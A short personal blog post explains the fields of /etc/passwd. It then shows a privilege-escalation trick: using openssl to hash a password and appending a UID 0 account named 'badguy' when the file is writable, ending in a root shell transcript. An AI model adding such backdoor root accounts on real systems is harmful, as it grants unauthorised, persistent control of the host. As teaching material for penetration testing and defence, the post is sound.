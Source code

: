 ```yaml
---
layout: post
title: Hacking /etc/passwd
catagories: Insecurity
---
```

I've been crazy busy with various projects and wanted to remember this trick for /etc/passwd in the event you have write access to the file.  I found myself in a position where I had a low level shell and had write access to /etc/passwd.  I couldn't remember having done this before and didn't have any notes on it, so here it is.

Let's assume you know the basics about what /etc/passwd does.  You may not remember/know what the fields are in the passwd file.  I always ask it on interview questions.

As a quick refresher we'll use this line from /etc/passwd:
```
vaccine:x:1001:1001:vaccine,,,:/home/vaccine:/bin/bash
   1    2  3    4       5          6            7
```
There are 7 fields separated by a ':'

|Space |Field          |Description  |Purpose    |
|---
|1 |vaccine        |Username     |Username   |
|2 |x              |Password     |Placeholder for password* |
|3 |1001           |UID          |Numeric representation of username |
|4 |1001           |GID          |Numeric representation of default group |
|5 |vaccine,,,     |GECOS        |General info about the account** |
|6 |/home/vaccine  |Home dir     |Location of home directory |
|7 |/bin/bash      |Shell        |Default shell |

\* Modern Unix/Linux operating systems keep the encrypted password in /etc/shadow.  The 'x' indicates there is a password set, and is encrypted in /etc/shadow.  Usually accounts with an * (asterisk) in password field don't have a password e.g: disabled for login.

\*\* The GECOS field is typically used to record general information about the account or its user(s) such as their real name and phone number. Historically, some early Unix systems at Bell Labs used GECOS machines for print spooling and various other services, so this field was added to carry information on a user's GECOS identity.

Now, we have this /etc/passwd file that we can write to, but still can't set a password with the passwd command or edit the /etc/shadow file..  Enter openssl.  With openssl we can create an encrypted password and put it right into the passwd file.

First we create the hash
```
bash-4.2$ openssl passwd -1 -salt badguy pass123
$1$badguy$zgKg42t10j4SEDtASy6ML1
```
Next we append the "new user" into the password file along with root's UID
```
badguy:$1$badguy$zgKg42t10j4SEDtASy6ML1:0:0:root:/root:/bin/bash
```
Finally, we can escalate
```
bash-4.2$ su - badguy
Password:
Last login: Fri Dec  6 16:10:18 EST 2019 from 192.168.1.5 on pts/0
[root@server ~]# whoami
root
```
